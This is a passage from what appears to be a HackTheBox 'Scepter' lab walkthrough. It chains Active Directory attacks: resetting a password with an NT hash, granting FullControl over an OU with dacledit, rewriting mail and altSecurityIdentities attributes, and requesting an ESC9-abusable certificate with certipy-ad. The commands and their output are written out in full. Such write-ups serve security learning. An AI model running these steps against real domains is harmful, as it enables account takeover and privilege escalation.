 now we will use a.carter privileges again for p.adams. but before done this we have to run this commands again.

we can also done with  bloodyAD tho

```bash
bloodyAD -d "scepter.htb" -u "h.brown" -k --host "dc01.scepter.htb" --dc-ip "10.10.11.65" set object "p.adams" altSecurityIdentities -v "X509:<RFC822>p.adams@scepter.htb"
```

```bash
bloodyAD --host DC01.scepter.htb -d scepter.htb -u d.baker -p :18b5fb0d99e7a475316213c15b6f22ce set password a.carter NewPassword123
dacledit.py -action write -rights FullControl -inheritance \
-principal 'a.carter' \
-target-dn 'OU=Staff Access Certificate,DC=scepter,DC=htb' \
'scepter.htb/a.carter:NewPassword123'
```

and after them we can run it again.

```bash
➜  HackTheBox bloodyAD -d scepter.htb -u a.carter -p NewPassword123 --host DC01.scepter.htb set object d.baker mail -v p.adams@scepter.htb        
[+] d.baker's mail has been updated
```

now we will do ESC9 again for p.adams

![alt text](../assets/images/scepter15.png)

and lets run everything we run before

```bash
faketime "$(ntpdate -q scepter.htb | cut -d ' ' -f 1,2)" certipy-ad req -username "d.baker@scepter.htb" -hashes 18b5fb0d99e7a475316213c15b6f22ce -target "DC01.scepter.htb" -ca 'scepter-DC01-CA' -template 'StaffAccessCertificate'
[!] DNS resolution failed: The DNS query name does not exist: DC01.scepter.htb.
[!] Use -debug to print a stacktrace
[!] DNS resolution failed: The DNS query name does not exist: SCEPTER.HTB.
[!] Use -debug to print a stacktrace
[*] Requesting certificate via RPC
[*] Request ID is 7
[*] Successfully requested certificate
[*] Got certificate without identity
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
```